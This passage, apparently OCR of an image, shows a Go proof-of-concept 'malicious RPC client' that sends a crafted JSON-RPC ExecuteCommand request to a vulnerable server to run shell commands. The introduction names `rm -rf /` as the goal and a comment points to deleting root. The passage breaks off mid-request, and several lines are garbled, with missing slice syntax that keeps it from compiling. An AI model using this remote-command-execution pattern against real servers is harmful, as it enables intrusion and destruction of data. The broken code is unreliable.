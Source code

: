 **Client-side (Malicious Go RPC Client):**

This client will connect to the vulnerable server and send a crafted RPC request to execute `rm -rf /` (or `dir` on Windows) on the server.

```go
package main

import (
	"encoding/json"
	"fmt"
	"log"
	"net/rpc"
	"net/rpc/jsonrpc"
	"os"
	"runtime"
)

// RPCRequest matches the server's request structure
type RPCRequest struct {
	Method string          `json:"method"`
	Params json.RawMessage `json:"params"`
}

// CommandParams matches the server's expected command parameters
type CommandParams struct {
	Cmd  string   `json:"cmd"`
	Argsstring `json:"args"`
}

func main() {
	client, err := jsonrpc.Dial("tcp", "localhost:1234")
	if err!= nil {
		log.Fatalf("Error dialing RPC server: %v", err)
	}
	defer client.Close()

	// Determine command based on OS for demonstration
	var cmdToExecute string
	var argsToExecutestring
	if runtime.GOOS == "windows" {
		cmdToExecute = "cmd"
		argsToExecute =string{"/C", "dir"} // List directory on Windows
	} else {
		cmdToExecute = "rm"
		argsToExecute =string{"-rf", "/tmp/malicious_test_dir"} // Attempt to delete a directory (use /tmp for safety)
		// For a more impactful demo, this could be ["-rf", "/"]
	}

	// Craft the malicious CommandParams
	maliciousParams := CommandParams{
		Cmd:  cmdToExecute,
		Args: argsToExecute,
	}

	// Marshal the malicious CommandParams into a json.RawMessage
	rawMaliciousParams, err := json.Marshal(maliciousParams)
	if err!= nil {
		log.Fatalf("Error marshaling malicious params: %v", err)
	}

	// Create the RPC request with the raw malicious parameters
	req := RPCRequest{
		Method: "RPCService.ExecuteCommand", // Matches the registered method on the server
```